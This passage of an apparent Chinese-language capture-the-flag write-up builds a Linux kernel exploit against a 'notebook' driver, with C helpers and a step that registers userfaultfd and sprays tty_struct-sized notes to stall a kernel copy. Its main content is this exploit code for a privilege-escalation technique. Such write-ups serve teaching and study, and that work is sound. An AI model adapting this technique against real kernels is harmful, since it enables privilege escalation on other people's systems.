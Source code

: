 ```c
}
void notedel(size_t idx){
    printf("\033[1;34mDelete note #%zu...\n\033[m", idx);
    notearg arg = {idx, 0, NULL};
    ioctl(fd, DELETE_CODE, &arg);
}
void noteedit(size_t idx, size_t size, void* buf){
    printf("\033[1;34mResize note #%zu to %zu...\n\033[m", idx, size);
    notearg arg = {idx, size, buf};
    ioctl(fd, EDIT_CODE, &arg);
}
void notewrite(const char* buf, size_t idx){
    printf("\033[1;34mWrite to note #%zu...\n\033[m", idx);
    write(fd, buf, idx);
}
void notebook_msg(){
    size_t noteBuf[0x20] = {0};
    notegift(noteBuf);
    printf("\033[1;36m--------------------------------------------------------------------------------\n");
    printf("Current Notebook Info:\n");
    for(int i=0; i<0x10; i++)
        printf("\tNote #%2d: size = %zu, pointer = %p\n", i, noteBuf[i*2+1], (char*)noteBuf[i*2]);
    printf("--------------------------------------------------------------------------------\n\033[m");
}

int main(){
    fd = open("/dev/notebook", O_RDWR);
}
```

# Step 12: exp编写——使userfaultfd成功阻塞主线程
编译测试的时候别忘了加上-lpthread选项。
```c
int main(){
    saveStatus();
    page_size = sysconf(_SC_PAGESIZE);
    page = (char*)malloc(0x1000);
    memset(page, 'a', 0x1000);
    fd = open("/dev/notebook", O_RDWR);

    char* mmap_space = mmap(NULL, 0x1000, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    printf("\033[1;34mMmap executed, mmap address: %p\n\033[m", mmap_space);
    registerUserFaultFd(mmap_space, 0x1000, fault_handler_thread);
    printf("\033[1;34mMmap space userfaultfd registered.\n\033[m");

    for(int i=0; i<0x10; i++)
        noteadd(i, TTY_STRUCT_SIZE, page);
    printf("\033[1;34mNotebook filled.\n\033[m");
    notebook_msg();

    noteedit(0, 0x2000, mmap_space);        // trigger page fault
}
```
其中最后一条语句就能够触发缺页异常。
![](12.png)
可以看到确实成功了。
